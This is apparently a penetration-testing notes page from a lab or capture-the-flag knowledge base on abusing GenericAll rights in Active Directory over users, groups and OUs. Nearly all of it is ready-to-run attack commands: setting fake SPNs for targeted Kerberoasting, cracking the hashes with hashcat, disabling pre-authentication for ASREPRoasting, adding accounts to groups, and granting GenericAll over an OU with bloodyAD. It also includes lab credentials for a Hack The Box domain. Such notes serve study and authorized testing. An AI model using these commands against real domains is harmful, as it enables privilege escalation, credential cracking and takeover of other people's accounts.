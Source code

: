 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Over a User

### Targeted Kerberoasting

{% tabs %}
{% tab title="targetedKerberoast" %}
[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) extracts Kerberoast hashes by abusing `write` access to set temporary SPNs on users without one, then removes them. It works on all users, a list, or a single user:

{% code overflow="wrap" %}
```bash
targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<pass>' --request-user '<target-account>'
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account:

{% code overflow="wrap" %}
```powershell
# Credentialed object for the currently owned user
> $SecPass = ConvertTo-SecureString "<password>" -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential ("<domain>\<username>", $SecPass)

# Create a fake SPN for the target user
> Set-ADUser -Identity "<target-user>" -Credential $Cred -Add @{ServicePrincipalName='fake/http'}
```
{% endcode %}

Once the SPN is assigned to the target account, we can [Kerberoast](../attacks/kerberoasting.md) it and crack its hash:

{% code overflow="wrap" %}
```bash
# Kerberoast the target account
impacket-GetUserSPNs <domain>\<username>:<password> -request-user <target-user> -dc-ip <dc-ip>

# Crack the hash
hashcat -m13100 fake_spn_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it:

{% tabs %}
{% tab title="PS" %}
```powershell
# Set the preauth option to true
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# Set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# Confirm that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

> _An example of the above method can be found_ [_here_](../../../boxes/insane/multimaster.md#genericwrite-rights)_._

### Change user's password

See [here](forcechangepassword.md).

## Over a Group

### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Adding user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# Adding user to the group (using another user's creds)
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endcode %}
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group <GROUP> <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
# Clean up by removing the account from the group
net group <GROUP> <USER> /del /domain
```
{% endtab %}
{% endtabs %}

## Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}
